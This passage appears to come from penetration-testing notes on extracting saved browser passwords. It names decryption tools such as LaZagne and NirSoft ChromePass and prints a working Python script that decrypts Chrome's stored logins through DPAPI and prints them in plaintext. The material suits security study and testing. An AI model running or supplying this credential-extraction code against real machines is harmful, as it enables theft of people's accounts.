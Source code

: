 ### 	Storage & Decryption:

 - Same process as Google Chrome.

## **1.6 Are Passwords Stored as Hashes?**

 - No, browsers typically do not store passwords as hashes. Instead:
 - Passwords are encrypted using OS-based APIs like DPAPI, GNOME Keyring, or Keychain.
 - Hashes are unsuitable because browsers need the plaintext password to auto-fill login forms.

## **1.7 Cracking Browser Passwords**

### Decryption Tools:

 - Browser-Specific Tools:
        -  NirSoft Tools (e.g., ChromePass, WebBrowserPassView): For decrypting Chrome, Firefox, and Edge passwords on Windows.
        -  Firefox Decrypt: Specifically for Firefox passwords.

### Manual Decryption:

 - Extract SQLite data.
 - Decrypt using Python scripts that interact with DPAPI, Keyring, or Keychain.

### Example Python Script for Windows (DPAPI):

```bash	
import win32crypt
import sqlite3

conn = sqlite3.connect("Login Data")
cursor = conn.cursor()
cursor.execute("SELECT origin_url, username_value, password_value FROM logins")

for row in cursor.fetchall():
   url = row[0]
   username = row[1]
   encrypted_password = row[2]
   decrypted_password = win32crypt.CryptUnprotectData(encrypted_password, None, None, None, 0)[1]
   print(f"URL: {url}, Username: {username}, Password: {decrypted_password.decode()}")  
```

## **1.8 Automating Password Mining**

 - For automation, tools like LaZagne can be used:
 - GitHub Link: [LaZagne](https://github.com/AlessandroZ/LaZagne)
            - LaZagne extracts saved credentials from multiple applications, including browsers.            
 - For more browsers , Applications and additional password extraction techniques, you can refer to LaZagne .

## 2.Configuration files which can cantains the passwords:-   
